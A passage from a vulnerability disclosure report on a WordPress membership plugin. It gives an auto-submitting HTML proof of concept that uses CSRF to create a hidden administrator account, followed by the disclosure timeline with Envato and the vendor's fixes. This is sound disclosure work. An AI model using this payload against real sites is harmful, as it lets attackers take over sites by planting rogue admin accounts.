 #### PoC to Create an Administrator Account via CSRF Attack

```html
<html>
  <!-- Account will not show up in the plugin's users list (because of admin role), but will be in the WP users list -->
 <body onload="document.forms[0].submit();">
    <form action="https://example.com/wp-admin/admin.php?page=ihc_manage&tab=users" method="POST" enctype="multipart/form-data">
      <input type="hidden" name="user_login" value="admin-csrf" />
      <input type="hidden" name="user_email" value="admin-csrf@attacker.com" />
      <input type="hidden" name="first_name" value="Admin" />
      <input type="hidden" name="last_name" value="CSRF" />
      <input type="hidden" name="pass1" value="Passw0rd" />
      <input type="hidden" name="pass2" value="Passw0rd" />
      <input type="hidden" name="role" value="administrator" />
      <input type="hidden" name="ihc_user_levels" value="-1" />
      <input type="hidden" name="ihc_overview_post" value="-1" />
      <input type="hidden" name="Submit" value="Register" />
    </form>
  </body>
</html>
```

Given the recurrent lack of CSRF checks on actions, we recommended the devs to do a review of their plugin to make sure appropriate checks are in place.

### Timeline
- Februaray 1st, 2020 - Researcher Tried to contact devs via email and the comment section on Envato.
- Februrary 3rd, 2020 - Report received via WPVulnDB submission form & Escalated to Envato.
- February 4th, 2020 - Envato Investigating.
- February 4th, 2020 - v8.6.1 released, devs replied (via Envato) that the issues were due to the nulled plugin used by the reasearcher.
- February 7th, 2020 - We confirmed that the issues were valid and not due to a nulled plugin liked the devs claimed. Furthermore, the attempted fixes were not sufficient enough and Envato has been notified again along with more details and piece of vulnerable code.
- February 8th, 2020 - Envato replied that the issues have been verified and the devs have been notified.
- Febraury 13th, 2020 - v8.6.2 released.
- Febraury 14th, 2020 - Envato reaching to notify us of the update.
- February 17th, 2020 - Reply to Envato after confirming the issues have been remediated. Also notified them of two CSRF  identified while checking the fixes.
- February 22nd, 2020 - v8.7 released, fixing the two additional CSRF found. Other CSRF checks have been put in place as well.
- March 6th, 2020 - Release of all PoC and this report

### Note
There was another sensitive file with the same behaviour as the export.xml (publicly accessible, insufficient entropy and so on). Even though this has not been detailed in this report, it was fixed.

### Thanks
- Envato, for the quick response and escalation. Even though they had a large amount of tickets (and response time could take up to 7 days), we got a response in 24h and a potential fix 3 days after by the plugin's devs.
- The original researcher, [Noman Riffat](https://twitter.com/nomanriffat)
